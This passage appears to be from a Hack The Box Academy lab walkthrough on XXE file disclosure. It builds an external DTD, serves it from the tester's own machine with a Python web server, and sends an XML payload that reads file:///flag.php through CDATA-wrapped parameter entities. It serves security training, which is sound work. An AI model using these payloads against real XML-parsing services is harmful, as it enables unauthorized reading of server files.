```xml
<!ENTITY joined "%begin;%file;%end;">
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.155  netmask 255.255.254.0  destination 10.10.15.155

[SNIP]

┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.15.155:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

[SNIP]

<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

[SNIP]
```

![Burp Suite - POST XXE Attempt 2](./assets/screenshots/web_attacks_advanced_file_disclosure_burpsuite_post_xxe_attempt_2.png)
